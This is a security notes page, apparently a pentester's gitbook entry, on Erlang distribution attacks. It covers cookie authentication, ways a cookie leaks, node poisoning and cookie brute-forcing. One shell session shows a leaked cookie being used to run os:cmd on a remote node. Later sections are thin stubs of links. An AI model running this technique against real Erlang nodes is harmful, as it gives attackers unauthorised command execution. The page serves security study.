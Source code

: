 # Erlang

## Authentication Cookie

Authentication between Erlang nodes is rather unique to anything I've seen elsewhere, and it all happens through the magic of cookies.  The [documentation ](http://erlang.org/doc/reference_manual/distributed.html)sums this up well:

> Authentication determines which nodes are allowed to communicate with each other. In a network of different Erlang nodes, it is built into the system at the lowest possible level. Each node has its own **magic cookie**, which is an Erlang atom.
>
> When a node tries to connect to another node, the magic cookies are compared. If they do not match, the connected node rejects the connection.

If the authentication cookie is leaked then theoretically we can abuse the nature of Erlang's inter-connectivity to achieve command execution on a node we shouldn't necessarily be able to.  Due to the distributed nature of Erlang also, this represents a fundamental risk.

Of course this only assumes you can leak the cookie.  There are a number of methods, such as in the event of a lower privileged user seeing the `-setcookie` flag in a process list, a weak cookie or a simple brute-force.  The topic of brute-forcing is discussed by Daniel Mende in [Erlang distribution RCE and a cookie bruteforcer](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/), as well as by Michael Santos in [Spoofing the Erlang Distribution Protocol](http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html).

If we have access to the cookie and can connect to a node's epmd port \(usually tcp/4369\), we can spawn our own node and achieve command execution in the following manner:

```
otheruser@pc:/$ erl -sname booj -setcookie cookieval -remsh node@localhost
<me booj -setcookie cookieval -remsh node@localhost
Eshell V7.3 (abort with ^G)
(booj@booj)1> net_adm:ping(node@localhost).
net_adm:ping(node@localhost).
pong
(booj@booj)2> spawn(node@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
spawn(node@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
"uid=1000(mainuser) gid=1000(mainuser) groups=1000(mainuser)\n"
<6881.23434.8>
```

**References**

[https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://legacy.gitbook.com/book/reboare/booj-security/edit#)  
[http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html](https://legacy.gitbook.com/book/reboare/booj-security/edit#)

**Further Reading**

[Who wants cookies?](https://blog.voltone.net/post/4)  
[Unauthorized Erlang](https://blog.voltone.net/post/12)

## Node Poisoning

Connecting to an Erlang cluster can potentially be dangerous.  We've mentioned the dangers of arbitrary command execution on adjacent nodes, but this also extends to your workstation upon connecting to a cluster.  In Alex Weber's [Erlang's remsh is dangerous](https://www.broot.ca/erlang-remsh-is-dangerous), we are given a method to compromise an active workstation connecting to a cluster.

If, for example, we were to take control of a single node within a cluster, not only do we have arbitrary command execution over it, but we would also be able to infect any new nodes which join the cluster automatically.

I've tested this out using three docker containers.

```
https://stackoverflow.com/questions/45057343/connect-erlang-nodes-on-docker
```

**References**

[Erlang's remsh is dangerous](https://www.broot.ca/erlang-remsh-is-dangerous)  
https://stackoverflow.com/questions/45057343/connect-erlang-nodes-on-docker

## Cookie Bruteforcing

**Further Reading**

[https://github.com/msantos/spoofed](https://github.com/msantos/spoofed)

[https://www.youtube.com/watch?v=42k70Y-yTYY](https://www.youtube.com/watch?v=42k70Y-yTYY)

[https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4 - Don Bailey - Unauthorized Erlang.pdf](https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4 - Don Bailey - Unauthorized Erlang.pdf)

